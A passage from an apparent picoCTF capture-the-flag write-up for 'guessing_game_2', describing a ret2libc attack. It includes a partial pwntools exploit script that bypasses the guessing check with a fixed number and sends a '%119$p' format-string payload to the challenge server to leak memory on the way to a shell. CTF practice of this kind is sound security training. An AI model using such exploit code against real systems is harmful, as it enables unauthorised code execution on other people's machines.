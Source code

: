 ![img](/picoCTF/guessing_game_2/assets/libc_finding.png)
![img](/picoCTF/guessing_game_2/assets/found_libc.png)


- Then the challenge return to ret2libc :3, I found offset of system function puts function and "/bin/sh" string address, then send final exp.py file to get shell.

## Exploit

```python
# filename: exp.py
from pwn import *

host = "jupiter.challenges.picoctf.org"
port = 13610
p = remote(host, port)

bypass_rand = -3727
win_addr = 0x0804876e
puts_plt = 0x80484c0
puts_got_plt = 0x8049fdc
printf_got_plt = 0x8049fc8

p.recvuntil("What number would you like to guess?\n")
p.sendline(str(bypass_rand).encode("ascii"))
p.recvuntil("Name? ")
p.sendline("%119$p")
p.recvuntil("Congrats: ")
```
